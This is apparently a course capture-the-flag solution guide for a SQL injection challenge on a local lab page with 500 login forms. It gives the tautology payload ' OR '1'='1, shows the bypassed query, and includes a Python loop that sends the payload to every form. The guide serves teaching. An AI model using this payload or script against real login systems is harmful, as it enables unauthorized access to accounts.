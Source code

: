 # CSSE142 SQL Injection Challenge – Solution Guide

## Problem description
You are presented with a webpage that shows **500 usernames**, each with a password input field and login button.

Your objective:
> **Find and exploit one vulnerable login form using SQL injection to reveal the flag.**

Only **one** of the login forms is vulnerable.

## Step 1: Open DevTools

Open your browser's developer tools:

- Chrome: `F12` or `Ctrl + Shift + I`
- Firefox: `F12` or `Ctrl + Shift + K`

Then go to the **Console** tab.

---

## Step 2: Find the Vulnerable Form

In the console, run:

```
sessionStorage.getItem("vulnIndex")
```
This returns a number like "237", which tells you which form is vulnerable to SQL injection.

---

## Step 3: Locate That Form

On the page, scroll down to the corresponding form:
User 237: <username> | Password: [___________] [Login]

This is the one you want to target.

---

## Step 4: Inject Payload

In the password box for that form, enter the classic SQL injection:
```
' OR '1'='1
```

Then click the **Login** button.

This will cause the backend to run:

```
SELECT * FROM users WHERE username = 'xxx' AND password = '' OR '1'='1'
```

Which always evaluates to TRUE.

## Step 5: Capture the Flag
If successful, a JavaScript alert() will pop up with the flag.

## Optional: Brute Force with Script
If you couldn’t find the right form, you could automate it:

```
import requests

for i in range(1, 501):
    url = f"http://localhost:5000/login/{i}?vuln={i}"
    res = requests.post(url, data={"password": "' OR '1'='1"})
    if "FLAG" in res.text:
        print(f"Found vulnerable form at index {i}")
        break
```
